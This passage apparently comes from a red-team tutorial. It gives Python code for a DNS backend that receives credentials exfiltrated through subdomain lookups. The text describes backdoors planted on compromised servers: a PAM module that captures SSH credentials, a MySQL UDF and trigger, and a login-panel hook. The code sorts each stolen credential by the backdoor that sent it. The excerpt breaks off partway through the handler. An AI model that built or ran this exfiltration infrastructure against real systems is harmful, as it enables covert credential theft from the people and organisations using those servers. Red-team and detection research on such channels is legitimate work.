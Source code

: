 ## 0x03 Newton's Third Law
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We need to code simple rules in our shiny DNS backend to trigger arbitrary actions. The imagination is the only barrier to perfom it: you can use subdomains to indicate a "command" (store a credential, run a program, whatever...), or maybe just encode the action in the few first bytes of a subdomain, etc. We are going (just as an example) use the first two bytes from a subdomain resolution to determine the actions. So, imagine that during a Red Team operation few backdoors are deployed in different servers and services (a PAM module to extract SSH credentials, an UDF + trigger in MySQL to retrieve credentials used in a login panel, etc.) and they exfiltrate the credentials to us via DNS resolutions. Something like this can do the job:

```python
#!/usr/bin/python

 from sys import stdin, stdout, stderr

 # Basic configuration
 domain = "gamusinos.net"
 ttl = "432000"
 ipaddress = "127.0.0.1"
 ids = "1"
 hostmaster="crazy-gamusino@narnia.net"
 soa = '%s %s %s' % ("ns1." + domain, hostmaster, ids)

 # Read STDIN and split tokens
 def readLine():
         data = stdin.readline()
         tokens = data.strip().split("\t")
         return tokens

 # Handle basic requests
 def handleSoa(qname):
         stdout.write("DATA\t" + qname + "\tIN\tSOA\t" + ttl + "\t" + ids + "\t" + soa + "\n")
         stdout.write("END\n")
         stdout.flush()

 def handleNS(qname):
         stdout.write("DATA\t" + qname + "\tIN\tA\t" + ttl + "\t" + ids + "\t" + "\t" + ipaddress + "\n")
         stdout.write("END\n")
         stdout.flush()

 def handleA(qname, ip):
         stdout.write("DATA\t" + qname + "\tIN\tA\t" + ttl + "\t" + ids + "\t" + ip + "\n")
         stdout.write("DATA\t" + qname +  "\tIN\tNS\t" + ttl + "\t" + ids + "\t" + "ns1." + domain + "\n")
         stdout.write("DATA\t" + qname +  "\tIN\tNS\t" + ttl + "\t" + ids + "\t" + "ns2." + domain + "\n")
         stdout.write("END\n")
         stdout.flush()

 def saveCredential(qname):
         stderr.write("  [+] Storing new credential!\n")
         stderr.flush()
         if qname[0] == "a":
                 stderr.write("  - Credential from PAM backdoor\n")
                 stderr.flush()
                 # Do things to decrypt and save to a database
         elif qname[0] == "b":
                 stderr.write("  - Credential from MySQL backdoor\n")
                 stderr.flush()
         elif qname[0] == "c":
                 stderr.write("  - Credential from Login backdoor\n")
```